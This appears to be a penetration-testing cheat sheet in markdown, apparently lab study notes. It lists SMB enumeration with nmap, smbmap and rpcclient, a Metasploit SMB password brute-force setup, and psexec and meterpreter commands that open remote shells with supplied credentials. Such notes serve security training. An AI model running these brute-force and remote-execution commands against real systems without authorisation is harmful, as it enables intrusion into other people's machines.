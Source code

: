 Look for `robots.txt` file.

#### IIS

```bash
whatweb <ip>
```

### SMB

- smbclient
- rpcclient
- SMBMap

```bash
nmap -p 445 --script smb-protocols <ip>
nmap -p 445 --script smb-security-mode <ip>
nmap -p 445 --script smb-enum-sessions <ip>
nmap -p 445 --script smb-enum-sessions --script-args ... <ip>
nmap -p 445 --script smb-enum-shares <ip>
```

```bash
# anonymous
smbmap -u guest -p "" -d . -H <ip>
# admin user
smbmap -u administrator -p smbserver_771 -H <ip> -x 'ipconfig'
```

```bash
> use auxiliary/scanner/smb/smb_login
> set RHOSTS <ip>
> set USER_FILE common_users.txt
> set PASS_FILE unix_passwords.txt
> set VERBOSE false # to only print succeed
```

```bash
$ psexec.py <username>@<ip> cmd.exe
Password:
C:\Windows\system32>
```

To open a meterpreter session:

```bash
> use exploit/windows/smb/psexec
> set RHOSTS <ip>
> set SMBUser <username>
> set SMBPass <password>
```

### SQL

#### MySQL

```bash
nmap -sV -p 3306 --script=mysql-empty-password
nmap -sV -p 3306 --script=mysql-info
```
